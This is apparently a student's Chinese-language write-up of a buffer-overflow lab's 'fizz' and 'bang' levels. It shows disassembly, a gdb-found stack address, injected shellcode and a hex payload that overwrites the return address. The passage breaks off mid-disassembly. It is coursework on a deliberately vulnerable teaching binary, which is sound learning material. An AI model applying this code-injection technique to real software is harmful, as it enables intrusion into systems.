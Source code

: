 ## fizz
```asm
000000000040103b <fizz>:
  40103b:	48 83 ec 08          	sub    $0x8,%rsp
  40103f:	89 fa                	mov    %edi,%edx
  401041:	3b 3d 65 51 20 00    	cmp    0x205165(%rip),%edi        # 6061ac <cookie>
  401047:	75 20                	jne    401069 <fizz+0x2e>
  401049:	be ea 26 40 00       	mov    $0x4026ea,%esi
  40104e:	bf 01 00 00 00       	mov    $0x1,%edi
  401053:	b8 00 00 00 00       	mov    $0x0,%eax
  401058:	e8 73 fd ff ff       	callq  400dd0 <__printf_chk@plt>
  40105d:	bf 01 00 00 00       	mov    $0x1,%edi
  401062:	e8 84 06 00 00       	callq  4016eb <validate>
  401067:	eb 14                	jmp    40107d <fizz+0x42>
  401069:	be 38 25 40 00       	mov    $0x402538,%esi
  40106e:	bf 01 00 00 00       	mov    $0x1,%edi
  401073:	b8 00 00 00 00       	mov    $0x0,%eax
  401078:	e8 53 fd ff ff       	callq  400dd0 <__printf_chk@plt>
  40107d:	bf 00 00 00 00       	mov    $0x0,%edi
  401082:	e8 79 fd ff ff       	callq  400e00 <exit@plt>
```

这里不知道为什么出现了一个edi，是在是没办法，只好用一些激进的方法。

首先进入gdb查到buf的地址是0x55683cb0。

让程序运行我注入的代码:
```asm
   0:	bf 1b fe f6 51       	mov    $0x51f6fe1b,%edi  #cookie
   5:	68 3b 10 40 00       	pushq  $0x40103b         #fizz
   a:	c3                   	retq
```
**特别注意，这里的cookie和下面的地址都要加上$，是立即数**
运行`gcc -c fizz.s`将汇编编译，而后运行`objdump fizz.s > fizz_asm.txt`即可完成。
将edi修改为我的cookies。
最终得到的答案如下:
```
bf 1b fe f6 51 68 3b 10
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
```

## bang
和上一个题目类似，我们做几乎同样的事，只不过这一次是把内存中的全局变量给修改掉了。
```asm
0000000000401087 <bang>:
  401087:	48 83 ec 08          	sub    $0x8,%rsp
  40108b:	8b 15 13 51 20 00    	mov    0x205113(%rip),%edx        # 6061a4 <global_value>
  401091:	3b 15 15 51 20 00    	cmp    0x205115(%rip),%edx        # 6061ac <cookie>
  401097:	75 20                	jne    4010b9 <bang+0x32>
  401099:	be 58 25 40 00       	mov    $0x402558,%esi
  40109e:	bf 01 00 00 00       	mov    $0x1,%edi
  4010a3:	b8 00 00 00 00       	mov    $0x0,%eax
  4010a8:	e8 23 fd ff ff       	callq  400dd0 <__printf_chk@plt>
  4010ad:	bf 02 00 00 00       	mov    $0x2,%edi
  4010b2:	e8 34 06 00 00       	callq  4016eb <validate>
  4010b7:	eb 14                	jmp    4010cd <bang+0x46>
  4010b9:	be 08 27 40 00       	mov    $0x402708,%esi
  4010be:	bf 01 00 00 00       	mov    $0x1,%edi
  4010c3:	b8 00 00 00 00       	mov    $0x0,%eax
  4010c8:	e8 03 fd ff ff       	callq  400dd0 <__printf_chk@plt>
  4010cd:	bf 00 00 00 00       	mov    $0x0,%edi
```